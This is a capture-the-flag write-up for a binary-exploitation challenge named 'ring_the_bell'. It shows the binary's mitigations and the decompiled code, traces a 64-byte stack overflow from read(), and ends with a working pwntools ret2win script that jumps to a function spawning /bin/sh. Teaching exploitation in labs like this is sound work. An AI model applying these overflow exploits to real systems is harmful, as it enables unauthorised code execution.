


# TL;DR
Simple buffer overflow challenge with everything except NX and RelRO disabled. The goal is to overflow the stack and jump right into the `bell()` win-function that spawns `/bin/sh`.

# Recon

We get a single **dynamically linked x86-64 executable** — `ring_the_bell`.

Inspecting mitigations in GDB/GEF:

```
gef➤  checksec
[+] checksec for '/pwd/ring_the_bell'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Full
```

As you can see, the `NX` bit is turned on, which means that stack is not executable. Also there's a full `RelRO`, so we can't overwrite `.got` or `.got.plt`.

# Reverse

Opening the binary in binary ninja reveals 3 main functions: `setup()`, `main()`, and an unreferenced `bell()`.

```
0040176d    int64_t bell() // easy win
0040179a        int64_t entry_rcx
0040179a        int64_t entry_r8
0040179a        char* entry_arg
0040179a        return execl(path: "/bin/sh", arg: "sh", 0, entry_rcx, entry_r8, arg: entry_arg)

0040179b    int32_t main(int32_t argc, char** argv, char** envp)
004017b1        puts(str: &data_402070)  // banner
004017c5        info("Rin! Ring the bell to call for reinforcements!\n\n[Rin]: ", 0)
004017d4        fflush(fp: stdout)
004017d9        int64_t buf
004017d9        __builtin_memset(dest: &buf, ch: 0, count: 32)
0040180a        read(fd: 0, &buf, nbytes: 96)  // <-- BUFFER OVERFLOW (96 into 32)
0040181e        info("D-d-did they hear us..?\n", 0)
00401829        return 0

0040182a    int64_t setup()
00401832        cls()
00401850        setvbuf(fp: stdin, buf: nullptr, mode: 2, size: 0)
0040186e        setvbuf(fp: stdout, buf: nullptr, mode: 2, size: 0)
0040187f        return alarm(0x1312)
```

In `main()`, `buf` is only 32 bytes, but `read()` fetches up to 96 bytes - giving us a **64-byte stack overflow**.

Meanwhile, `bell()` at `0x0040176d` serves as a clean **win-function**, executing `execl("/bin/sh", ...)`.

# Stack layout and Offset

Binary Ninja stack layout for `main()`:

```{title="Stack" lineNos=false hl_lines=[1, 6]}
entry -0x28  int64_t buf <-- our buffer
entry -0x20  int64_t var_20
entry -0x18  int64_t var_18
entry -0x10  int64_t var_10
entry  -0x8  int64_t __saved_rbp
entry        void* const __return_addr <-- our target
```

> BinNinja measures offset `-0x28` **relative to the return address** (so `buf` is at `rbp - 0x20`).



So I think that by this time it's obvious that we have to overwrite `buf` and saved rbp with 40 bytes of garbage + 8 bytes of `bell()` address.

```python
from pwn import *

WIN_ADDRESS = 0x0040176d

# debug settings, just in case
# context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# p = gdb.debug('./ring_the_bell', aslr=True, gdbscript='b *main+136')

# p = remote('YOUR_IP', YOUR_PORT)
p = process('./ring_the_bell')

payload =  cyclic(32+8)     # Buf + Saved RBP
payload += p64(WIN_ADDRESS) # bell()

p.writelineafter(b'[Rin]: ', payload)
p.interactive()
```


